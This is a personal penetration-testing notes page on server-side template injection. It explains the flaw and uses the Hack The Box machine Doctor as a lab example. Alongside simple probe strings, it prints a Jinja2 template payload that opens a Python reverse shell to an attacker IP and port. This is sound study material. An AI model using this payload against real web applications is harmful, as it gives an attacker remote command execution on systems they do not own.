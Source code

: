 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

Server-Side Template Injection (SSTI) exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## SSTI Testing

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, follow this flowchart from Hacktricks:

<figure><img src="../../.gitbook/assets/image (2580).png" alt=""><figcaption></figcaption></figure>

Generally, I try to identify what backend the website runs on (PHP, Ruby, etc.) and see if there are portions where **user-input is displayed** to run my tests on. This includes usernames, posts made to forums, etc.

## Example

The HTB machine Doctor uses SSTI for the initial access step.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.

<figure><img src="../../.gitbook/assets/image (1798).png" alt=""><figcaption></figcaption></figure>

I tested for SSTI. I tested a few payloads and made a new post:

<figure><img src="../../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would shows this:

<figure><img src="../../.gitbook/assets/image (3164).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, the website is running on either Jinja2 or Twig. A payload from PayloadAllTheThings can then be used:

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);").read().zfill(417)}}{%endif%}{% endfor %}


```

Editing the payload with the correct IP and port number gave me a reverse shell. SSTI is rather easy to exploit once found. Here are some other payloads used for testing:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
